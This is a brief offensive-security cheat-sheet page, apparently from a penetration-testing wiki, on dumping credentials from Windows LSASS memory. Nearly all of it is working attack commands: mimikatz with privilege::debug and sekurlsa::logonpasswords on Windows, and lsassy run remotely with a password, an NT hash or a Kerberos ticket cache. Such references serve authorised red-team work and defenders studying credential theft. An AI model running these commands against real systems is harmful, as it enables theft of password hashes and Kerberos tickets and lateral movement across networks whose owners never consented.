 ```yaml
---
label: LSASS Memory
---
```


# Credentials dump LSASS memory

> **Requirements:**
>
> - You have to be a local administrator on the machine (or SYSTEM).

LSASS dump can reveal credentials of users currently or recently logged into the system. The most common cached credentials will be NT hashes and Kerberos TGTs.

{/*TODO: sekurlsa::ekeys*/}

Windows:

```powershell
.\mimikatz.exe
> privilege::debug
> sekurlsa::logonpasswords
```

Linux:

```bash
# Using password
lsassy -u $user -p $password -d $domain $host

# Using NT hash
lsassy -u $user -H $nt_hash -d $domain $host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
lsassy -k $host
```